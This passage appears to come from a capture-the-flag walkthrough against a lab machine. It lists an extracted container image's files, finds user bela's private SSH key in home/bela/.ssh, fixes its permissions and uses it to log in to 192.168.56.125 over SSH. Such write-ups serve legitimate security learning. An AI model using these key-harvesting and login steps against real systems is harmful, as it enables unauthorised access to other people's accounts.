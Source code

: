 ```                  
4 drwxrwxr-x  4 kali kali 4096 Sep 26 04:55 ../
4 drwxr-xr-x  2 kali kali 4096 Mar 29  2023 bin/
4 drwxr-xr-x  2 kali kali 4096 Mar 29  2023 dev/
4 drwxr-xr-x 17 kali kali 4096 Mar 29  2023 etc/
4 drwxr-xr-x  2 kali kali 4096 Mar 29  2023 home/
4 drwxr-xr-x  7 kali kali 4096 Mar 29  2023 lib/
4 drwxr-xr-x  5 kali kali 4096 Mar 29  2023 media/
4 drwxr-xr-x  2 kali kali 4096 Mar 29  2023 mnt/
4 drwxr-xr-x  2 kali kali 4096 Mar 29  2023 opt/
4 dr-xr-xr-x  2 kali kali 4096 Mar 29  2023 proc/
4 drwx------  2 kali kali 4096 Mar 29  2023 root/
4 drwxr-xr-x  2 kali kali 4096 Mar 29  2023 run/
4 drwxr-xr-x  2 kali kali 4096 Mar 29  2023 sbin/
4 drwxr-xr-x  2 kali kali 4096 Mar 29  2023 srv/
4 drwxr-xr-x  2 kali kali 4096 Mar 29  2023 sys/
4 drwxrwxr-x  2 kali kali 4096 Mar 29  2023 tmp/
4 drwxr-xr-x  7 kali kali 4096 Mar 29  2023 usr/
4 drwxr-xr-x 12 kali kali 4096 Mar 29  2023 var/
```

`ls -alps ./5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017_dir/home`:
```
total 12
4 drwxr-xr-x 3 kali kali 4096 Apr 25  2023 ./
4 drwxrwxr-x 5 kali kali 4096 Sep 26 04:55 ../
4 drwxr-xr-x 3 kali kali 4096 Apr 25  2023 bela/ ←
```

`ls -alps ./5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017_dir/home/bela/`:
```
total 16
4 drwxr-xr-x 3 kali kali 4096 Apr 25  2023 ./
4 drwxr-xr-x 3 kali kali 4096 Apr 25  2023 ../
4 -rw------- 1 kali kali   57 Apr 25  2023 .ash_history
4 drwxr-xr-x 2 kali kali 4096 Apr 25  2023 .ssh/ ←
0 -rwxr-xr-x 1 kali kali    0 Dec 31  1969 .wh..wh..opq
```

`ls -alps ./5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017_dir/home/bela/.ssh`:
```        
total 12
4 drwxr-xr-x 2 kali kali 4096 Apr 25  2023 ./
4 drwxr-xr-x 3 kali kali 4096 Apr 25  2023 ../
4 -rw-r--r-- 1 kali kali 2635 Apr 25  2023 id_rsa ←
```

`chmod 600 ./5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017_dir/home/bela/.ssh/id_rsa`

`ssh -i ./5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017_dir/home/bela/.ssh/id_rsa bela@192.168.56.125`:
```
Enter passphrase for key '5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017_dir/home/bela/.ssh/id_rsa': ←
Linux doll 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Sep 26 11:09:06 2024 from 192.168.56.118
```
